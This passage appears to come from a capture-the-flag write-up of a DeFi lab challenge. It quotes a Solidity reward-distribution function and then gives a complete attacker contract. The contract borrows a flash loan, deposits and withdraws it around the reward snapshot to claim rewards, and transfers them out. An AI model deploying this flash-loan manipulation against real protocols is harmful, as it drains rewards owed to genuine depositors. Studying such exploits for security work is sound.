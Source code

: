 ```sol
    //...
    function distributeRewards() public returns (uint256 rewards) {
        if (isNewRewardsRound()) {
            _recordSnapshot();
        }

        uint256 totalDeposits = accountingToken.totalSupplyAt(lastSnapshotIdForRewards);
        uint256 amountDeposited = accountingToken.balanceOfAt(msg.sender, lastSnapshotIdForRewards);

        if (amountDeposited > 0 && totalDeposits > 0) {
            rewards = amountDeposited.mulDiv(REWARDS, totalDeposits);
            if (rewards > 0 && !_hasRetrievedReward(msg.sender)) {
                rewardToken.mint(msg.sender, rewards);
                lastRewardTimestamps[msg.sender] = uint64(block.timestamp);
            }
        }
    }
```

Our exploit contract would look something like:

```sol
contract TheRewarderAttacker {

    FlashLoanerPool flashLoanerPool;
    TheRewarderPool rewarderPool;

    constructor(address _flashLoanerPool, address _rewarderPool) {
        flashLoanerPool = FlashLoanerPool(_flashLoanerPool);
        rewarderPool = TheRewarderPool(_rewarderPool);
    }

    function attack() public {
        flashLoanerPool.flashLoan(1000000 ether);
        RewardToken rewardToken = rewarderPool.rewardToken();
        rewardToken.transfer(msg.sender, rewardToken.balanceOf(address(this)));
    }

    function receiveFlashLoan(uint256 amount) public {
        DamnValuableToken liquidityToken = flashLoanerPool.liquidityToken();
        // Receive flashloan -> deposit to rewarder pool -> withdraw from rewarder pool -> return flashloan.
        liquidityToken.approve(address(rewarderPool), amount);
        rewarderPool.deposit(amount);
        rewarderPool.withdraw(amount);
        liquidityToken.transfer(address(flashLoanerPool), amount);
    }

}
```